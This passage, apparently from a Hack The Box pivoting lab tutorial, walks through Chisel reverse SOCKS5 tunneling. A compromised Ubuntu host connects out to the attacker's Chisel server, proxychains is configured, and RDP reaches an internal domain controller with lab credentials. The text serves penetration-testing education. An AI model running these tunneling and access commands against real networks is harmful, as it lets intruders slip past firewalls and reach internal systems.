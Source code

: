
Now if we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

#### Pivoting to the DC

SOCKS5 Tunneling with Chisel

    matmarqx@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
    

## Chisel Reverse Pivot

In the previous example, we used the compromised machine (Ubuntu) as our Chisel server, listing on port 1234. Still, there may be scenarios where firewall rules restrict inbound connections to our compromised target. In such cases, we can use Chisel with the reverse option.

When the Chisel server has `--reverse` enabled, remotes can be prefixed with `R` to denote reversed. The server will listen and accept connections, and they will be proxied through the client, which specified the remote. Reverse remotes specifying `R:socks` will listen on the server's default socks port (1080) and terminate the connection at the client's internal SOCKS5 proxy.

We'll start the server in our attack host with the option `--reverse`.

#### Starting the Chisel Server on our Attack Host

    matmarqx@htb[/htb]$ sudo ./chisel server --reverse -v -p 1234 --socks5
    
    2022/05/30 10:19:16 server: Reverse tunnelling enabled
    2022/05/30 10:19:16 server: Fingerprint n6UFN6zV4F+MLB8WV3x25557w/gHqMRggEnn15q9xIk=
    2022/05/30 10:19:16 server: Listening on http://0.0.0.0:1234
    

Then we connect from the Ubuntu (pivot host) to our attack host, using the option `R:socks`

#### Connecting the Chisel Client to our Attack Host

    ubuntu@WEB01$ ./chisel client -v 10.10.14.17:1234 R:socks
    
    2022/05/30 14:19:29 client: Connecting to ws://10.10.14.17:1234
    2022/05/30 14:19:29 client: Handshaking...
    2022/05/30 14:19:30 client: Sending config
    2022/05/30 14:19:30 client: Connected (Latency 117.204196ms)
    2022/05/30 14:19:30 client: tun: SSH connected
    

We can use any editor we would like to edit the proxychains.conf file, then confirm our configuration changes using `tail`.

#### Editing & Confirming proxychains.conf

    matmarqx@htb[/htb]$ tail -f /etc/proxychains.conf 
    
    [ProxyList]
    # add proxy here ...
    # socks4    127.0.0.1 9050
    socks5 127.0.0.1 1080 
    

If we use proxychains with RDP, we can connect to the DC on the internal network through the tunnel we have created to the Pivot host.

    matmarqx@htb[/htb]$ proxychains xfreerdp /v:172.16.5.19 /u:victor /p:pass@123
